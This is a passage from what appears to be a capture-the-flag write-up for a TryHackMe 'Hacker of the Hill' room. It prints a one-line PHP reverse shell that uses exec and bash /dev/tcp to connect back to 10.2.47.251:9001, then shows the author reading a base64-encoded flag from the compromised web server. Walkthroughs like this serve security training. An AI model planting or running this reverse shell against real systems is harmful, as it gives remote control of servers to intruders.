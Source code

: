 ```php
<?php  
  exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.47.251/9001 0>&1' ");  
?>
```
![img](/assets/thm_hackerofthehill/bg_6_easy.png)

Now we have the shell, After that we can get the flag.

```bash
serv1@web-serv:/var/www/serv1/public$ cat /usr/games/fortune                                     
cat /usr/games/fortune                                                               
VEhNe05HSTROems0T0dJM01ERTRORFV6TldZd05qTXlaalkxfQo=                                 
serv1@web-serv:/var/www/serv1/public$ cat /usr/games/fortune|base64 -d               
cat /usr/games/fortune|base64 -d                                                     
THM{NG----------------------------Y1}                                                
serv1@web-serv:/var/www/serv1/public$ 
```

### Port 8001

Let's go to port 8001 : 

![img](/assets/thm_hackerofthehill/bg_7_easy.png)
